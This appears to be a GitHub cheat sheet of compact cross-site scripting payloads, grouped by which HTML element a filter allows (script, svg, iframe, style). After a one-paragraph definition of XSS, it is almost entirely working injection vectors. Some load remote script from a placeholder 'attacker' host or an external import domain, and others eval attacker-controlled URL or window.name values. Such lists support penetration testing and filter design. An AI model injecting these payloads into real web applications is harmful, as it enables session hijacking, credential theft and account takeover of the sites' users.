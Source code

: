 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

For more details on the different types of XSS flaws, see [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

## Full List of Vectors
[View GitHub Gist](https://gist.github.com/pr0fg/3283b19f9a3e965fab9d70fb5e3630f2)

## script Element Allowed
```
<script/src=//attacker></script>
```

## svg Element Allowed

Must control URL:
```
<svg/onload=eval(`'`+URL)>
```

Must control `name` variable and unsafe-eval not enabled:
```
<svg/onload=location=name>
```

Firefox only and must control `name` variable:
```
<svg/onload=eval(name)>
```

Uses external script as import, doesn't work in innerHTML unless Firefox. This PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header:
```
<svg/onload=import(/\\Ǌ.₨/)>
```

## iframe Element Allowed

Must control URL:
```
<iframe/onload=eval('`'+URL)>
```

Must control name of the window:
```
<iframe/onload=src=top.name>
```

If the number of iframes on the page is constant:
```
<iframe/onload=src=top[0].name+/\attacker?/>
```

If the number of iframes on the page is dynamic:
```
<iframe/onload=src=contentWindow.name+/\attacker?/>
```

If unsafe-inline is disabled in CSP and external scripts allowed
```
<iframe/srcdoc="<script/src=//attacker></script>">
```

Safari only, must control URL:
```
<iframe/onload=write(URL)>
```

Firefox only:
```
<iframe/srcdoc="<svg><script/href=//attacker />">
```

Uses external script as import. This PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header:
```
<iframe/onload=import(/\\Ǌ.₨/)>
```


## style Element Allowed
```
<style/onload=eval(name)>
```

Must control URL:
```
<style/onload=eval(`'`+URL)>
```

Safari only, must control URL:
```
<style/onload=write(URL)>
```

Uses external script as import, triggers if inline styles are allowed. This PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header:
```
<style/onload=import(/\\Ǌ.₨/)>
```

## style Element Blocked
```
<style/onerror=eval(name)>
```

